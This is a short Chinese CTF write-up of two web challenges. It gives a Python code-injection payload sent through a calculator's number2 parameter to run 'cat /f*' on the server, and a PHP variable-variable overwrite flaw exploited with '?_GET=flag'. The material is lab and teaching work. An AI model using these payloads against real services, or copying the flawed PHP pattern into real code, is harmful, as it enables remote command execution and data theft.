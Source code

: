 
## 算力超群            

抓个包先

```
GET /_calculate?number1=5&operator=*&number2=6 HTTP/1.1
```

传递了3个参数，我们分别对这个三个参数污染一下

发现number1,operator都有过滤，对number2时直接报错了

直接对number2 RCE



payload

```
/_calculate?number1=5&operator=*&number2=__import__('os').popen('cat /f*').read()
```







## 遍地飘零

```
 <?php
include "flag.php";
highlight_file(__FILE__);

$zeros="000000000000000000000000000000";

foreach($_GET as $key => $value){
    $$key=$$value;
}

if ($flag=="000000000000000000000000000000"){
    echo "好多零";
}else{
    echo "没有零，仔细看看输入有什么问题吧";
    var_dump($_GET);
}

```

本题考察的是变量覆盖

我们传入?_GET=flag

```
var_dump($_GET);=>  var_dump($flag);
```


